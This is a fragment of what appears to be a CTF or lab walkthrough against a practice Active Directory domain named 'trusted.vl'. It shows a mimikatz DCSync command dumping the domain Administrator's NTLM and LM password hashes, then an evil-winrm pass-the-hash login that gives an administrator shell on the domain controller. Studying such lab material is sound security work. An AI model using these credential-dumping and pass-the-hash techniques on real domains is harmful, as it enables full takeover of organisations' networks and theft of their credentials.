    mimikatz # lsadump::dcsync /user:trusted\administrator

    mimikatz # 
    [DC] 'trusted.vl' will be the domain
    [DC] 'trusteddc.trusted.vl' will be the DC server
    [DC] 'trusted\administrator' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)

    Object RDN           : Administrator

    ** SAM ACCOUNT **

    SAM Username         : Administrator
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
    Account expiration   : 1/1/1601 12:00:00 AM
    Password last change : 9/18/2022 8:50:53 PM
    Object Security ID   : S-1-5-21-3576695518-347000760-3731839591-500
    Object Relative ID   : 500

    Credentials:
    Hash NTLM: 15db914be1e6a896e7692f608a9d72ef
        ntlm- 0: 15db914be1e6a896e7692f608a9d72ef
        ntlm- 1: 86a9ee70dfd64d20992283dc5721b475
        lm  - 0: 1a28b083f0e83167bec07d185d492a67

END

    ➜  trusted evil-winrm -i TRUSTEDDC -u administrator -H 15db914be1e6a896e7692f608a9d72ef 
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    trusted\administrator
